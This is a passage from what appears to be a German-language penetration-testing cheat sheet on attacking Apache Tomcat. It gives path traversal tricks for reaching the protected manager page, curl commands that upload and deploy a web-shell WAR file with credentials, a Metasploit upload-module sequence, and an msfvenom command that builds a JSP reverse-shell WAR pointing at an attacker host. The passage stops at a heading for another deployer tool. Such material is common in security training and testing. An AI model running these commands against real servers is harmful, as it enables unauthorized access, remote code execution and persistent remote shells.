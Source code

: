 ### **Path Traversal Exploit**

In einigen [**anfälligen Konfigurationen von Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) können Sie auf geschützte Verzeichnisse in Tomcat zugreifen, indem Sie den Pfad verwenden: `/..;/`

Sie könnten also beispielsweise in der Lage sein, die **Tomcat-Manager**-Seite zu erreichen, indem Sie auf Folgendes zugreifen: `www.vulnerable.com/lalala/..;/manager/html`

**Eine andere Möglichkeit**, geschützte Pfade mit diesem Trick zu umgehen, besteht darin, `http://www.vulnerable.com/;param=value/manager/html` aufzurufen.

## RCE

Schließlich, wenn Sie Zugriff auf den Tomcat Web Application Manager haben, können Sie **eine .war-Datei hochladen und bereitstellen (Code ausführen)**.

### Limitations

Sie können eine WAR-Datei nur bereitstellen, wenn Sie **ausreichende Berechtigungen** (Rollen: **admin**, **manager** und **manager-script**) haben. Diese Details finden Sie normalerweise in _tomcat-users.xml_, die in `/usr/share/tomcat9/etc/tomcat-users.xml` definiert ist (es variiert zwischen den Versionen) (siehe [POST ](./#post)section).
```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
### Metasploit
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```
### MSFVenom Reverse Shell

1. Erstellen Sie die zu deployende WAR-Datei:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LPORT> -f war -o revshell.war
```
2. Laden Sie die `revshell.war`-Datei hoch und greifen Sie darauf zu (`/revshell/`):

### Bind- und Reverse-Shell mit [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)
